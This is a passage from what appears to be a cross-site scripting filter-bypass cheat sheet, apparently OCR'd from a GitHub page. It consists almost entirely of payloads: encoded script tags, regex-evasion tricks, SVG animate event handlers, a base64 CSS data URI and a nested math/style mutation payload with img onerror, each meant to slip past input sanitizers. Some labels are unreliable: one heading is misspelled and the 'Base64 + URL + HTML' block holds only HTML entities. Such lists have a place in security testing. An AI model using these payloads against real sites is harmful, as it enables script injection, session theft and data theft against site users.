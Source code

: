 ### Advanced Encoding Techniques

Complex encoding combinations:

```js
# Multi-layer Encoding
# Base64 + URL + HTML
&#x3c;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3e;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;&#x3c;&#x2f;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3e;

# Unicode Escape Sequence
\u0027\u003e\u003c\u0073\u0076\u0067\u0020\u006f\u006e\u006c\u006f\u0061\u0064\u003d\u0061\u006c\u0065\u0072\u0074\u0028\u0031\u0029\u003e

# CSS Escape
<style>@import '\\0061lert(1)';</style>
```

### Regular Expression Bypass

Techniques to bypass regex-based filters:

```js
# Newline Injection
<script>alert`
1`</script>

# Comment Injection
<!--><script>alert/**/('1')</script>

# Non-standard Attributes
<x onclick="&#0097;lert(1)">click</x>
```

### Bontext-Aware Bypass

```html
# CSS Context
<style>@import 'data:text/css;base64,KiB7eD11cmwoamF2YXNjcmlwdDphbGVydCgxKSl9';</style>

# SVG Context
<svg><set attributeName="onmouseover" to="alert(1)"/>
<svg><animate attributeName="onmouseover" to="alert(1)"/>

# Math Context
<math><mtext><option><FAKEFAKE><option></option><mglyph><svg><mtext><style><path id="</style><img onerror='alert(1)'"></mglyph></mtext></math>
```
